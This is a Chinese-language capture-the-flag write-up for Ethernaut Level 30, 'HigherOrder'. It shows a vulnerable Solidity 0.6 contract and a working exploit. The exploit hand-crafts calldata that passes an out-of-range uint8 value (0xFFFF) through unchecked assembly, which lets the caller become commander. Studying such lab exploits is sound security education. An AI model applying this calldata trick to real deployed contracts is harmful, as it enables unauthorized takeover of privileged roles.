


## Level_30.HigherOrder

要求：

> 成为Commander;

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.6.12;

contract HigherOrder {
    address public commander;

    uint256 public treasury;

    function registerTreasury(uint8) public {
        assembly {
            sstore(treasury_slot, calldataload(4))
        }
    }

    function claimLeadership() public {
        if (treasury > 255) commander = msg.sender;
        else revert("Only members of the Higher Order can become Commander");
    }
}
```

#### 分析

我们传输的数据需要大于255才能成为Commander，可是大于255起码需要3个hex；

此时注意编译版本：` 0.6 `，这时候还没有参数的边界检查，采用的是ABICoder V1，到了` 0.8 `版本才开始使用[参数的边界检查](https://docs.soliditylang.org/en/latest/080-breaking-changes.html)；

所以我们只需要自己构造一个大于0xFF的值作为calldata就行了；

```solidity
function getCalldata() public returns (bytes memory){
    return abi.encodeWithSignature("registerTreasury(uint8)", 0xFFFF);
}
// 0x211c85ab000000000000000000000000000000000000000000000000000000000000ffff
```


#### 攻击

记得加个` fallback() `函数后再点击` At Address `，不然直接输入calldata会失败；



查看值确实大于0xFF，调用` claimLeadership() `即可：



